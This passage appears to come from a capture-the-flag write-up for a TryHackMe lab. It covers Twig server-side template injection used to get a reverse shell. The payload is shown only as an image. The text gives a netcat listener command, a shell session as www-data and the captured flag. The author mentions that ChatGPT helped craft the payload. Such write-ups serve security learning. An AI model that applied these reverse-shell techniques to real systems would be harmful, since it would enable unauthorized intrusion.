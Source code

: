 The application responded with 4, confirming execution. Based on this, I crafted a more complex Twig SSTI payload to achieve a reverse shell.

## Reverse Shell via Twig

Using knowledge from the [PayloadsAllTheThings Twig section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md#twig---basic-injection), as well as insights provided by ChatGPT, I crafted the following payload to trigger a Bash reverse shell via Twig template injection:

![reverseshell](/images/injectics/basherror.jpg)

On my machine, I set up a listener:

```console
nc -lvnp PORT
```

After injecting the payload, I received a shell as the `www-data` user. Once inside, I navigated through the directories and was able to retrieve the second hidden flag.

```console
www-data@injectics:/var/www/html$ ls -lah
ls -lah
total 548K
drwxr-xr-x 6 ubuntu ubuntu 4.0K Jul 31  2024 .
drwxr-xr-x 3 root   root   4.0K Jul 19  2024 ..
-rw-rw-r-- 1 ubuntu ubuntu 1.0K Jul 31  2024 .conn.php.swp
-rw-r--r-- 1 ubuntu ubuntu  121 Jul 31  2024 .htaccess
-rw-rw-r-- 1 ubuntu ubuntu 7.2K Jul 23  2024 adminLogin007.php
-rw-r--r-- 1 ubuntu ubuntu 423K Jul 18  2024 banner.jpg
-rw-r--r-- 1 ubuntu ubuntu   48 Jul 17  2024 composer.json
-rw-r--r-- 1 ubuntu ubuntu 8.6K Jul 17  2024 composer.lock
-rw-r--r-- 1 ubuntu ubuntu 2.8K Jul 31  2024 conn.php
drwxrwxr-x 2 ubuntu ubuntu 4.0K Jul 18  2024 css
-rw-r--r-- 1 ubuntu ubuntu 7.4K Jul 23  2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu 7.1K Jul 23  2024 edit_leaderboard.php
drwxrwxr-x 2 ubuntu ubuntu 4.0K Jul 18  2024 flags
-rw-r--r-- 1 ubuntu ubuntu 2.1K Jul 22  2024 functions.php
-rw-r--r-- 1 ubuntu ubuntu 6.0K Jul 23  2024 index.php
-rwxrwxr-x 1 ubuntu ubuntu 3.9K Jul 23  2024 injecticsService.php
drwxrwxr-x 2 ubuntu ubuntu 4.0K Jul 18  2024 js
-rw-r--r-- 1 ubuntu ubuntu 5.5K Jul 23  2024 login.php
-rw-r--r-- 1 ubuntu ubuntu   99 Jun 16  2024 logout.php
-rw-rw-r-- 1 ubuntu ubuntu 1.1K Jul 23  2024 mail.log
-rw-r--r-- 1 ubuntu ubuntu 1.1K Jul 23  2024 script.js
-rw-r--r-- 1 ubuntu ubuntu 1.4K May 16  2023 styles.css
-rw-rw-r-- 1 ubuntu ubuntu 6.7K Jul 23  2024 update_profile.php
drwxr-xr-x 6 ubuntu ubuntu 4.0K Jul 17  2024 vendor
www-data@injectics:/var/www/html$ cat flags
cat flags
cat: flags: Is a directory
www-data@injectics:/var/www/html$ cd flags
cd flags
www-data@injectics:/var/www/html/flags$ ls
ls
5d8af1dc14503c7e4bdc8e51a3469f48.txt
www-data@injectics:/var/www/html/flags$ cat 5d8af1dc14503c7e4bdc8e51a3469f48.txt
<tml/flags$ cat 5d8af1dc14503c7e4bdc8e51a3469f48.txt
THM{5735172b6c147f4dd649872f73e0fdea}
www-data@injectics:/var/www/html/flags$ 
```